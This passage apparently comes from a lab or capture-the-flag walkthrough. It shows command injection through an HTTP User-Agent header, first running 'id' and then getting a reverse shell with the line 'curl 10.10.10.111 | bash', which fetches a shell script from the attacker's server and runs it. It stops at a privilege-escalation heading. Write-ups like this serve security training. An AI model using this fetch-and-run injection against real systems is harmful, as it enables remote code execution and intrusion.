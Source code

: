 After forwarding the request, we can see the result of the command on the name field of the table, in this case the executed command was `id.`

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-09 a las 20.40.50.png" alt=""><figcaption></figcaption></figure>

Now we create a file called index.html with a reverse shell.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-09 a las 20.53.37.png" alt=""><figcaption></figcaption></figure>

To get the reverse shell, we set up an http server on the local host and when intercepting the request, the User Agent value will be the following:

```
curl 10.10.10.111 | bash
```

This piece of code basically gets the content of the index.html file and interprets it with bash, sending a shell to the server listening on port 443 on local host.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-11 a las 12.10.42.png" alt=""><figcaption></figcaption></figure>

## Privilege escalation
